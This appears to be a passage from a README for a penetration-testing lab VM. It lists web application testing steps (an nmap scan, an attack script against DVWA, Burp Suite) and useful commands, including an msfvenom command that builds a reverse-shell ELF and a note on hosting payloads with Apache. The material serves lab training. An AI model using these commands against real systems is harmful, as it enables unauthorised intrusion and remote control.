 ### 2. Web Application Testing
```bash
# Step 1: Web service discovery
nmap -p 80,443,8080 --script http-enum 10.0.2.0/24

# Step 2: Automated web attacks
/opt/webapp-attacks.sh http://10.0.2.101/dvwa

# Step 3: Manual testing with Burp Suite
# Configure browser proxy and test manually
```

## Security Notes

⚠️ **WARNING**: This VM contains powerful penetration testing tools and should only be used in authorized lab environments. Never use these tools against systems you do not own or have explicit permission to test.

## Useful Commands

```bash
# Start Metasploit
msfconsole

# Update Metasploit
msfupdate

# Start Apache for hosting payloads
sudo systemctl start apache2

# Start SSH for file transfers
sudo systemctl start ssh

# Generate quick reverse shell
msfvenom -p linux/x64/shell_reverse_tcp LHOST=10.0.2.15 LPORT=4444 -f elf > shell.elf
```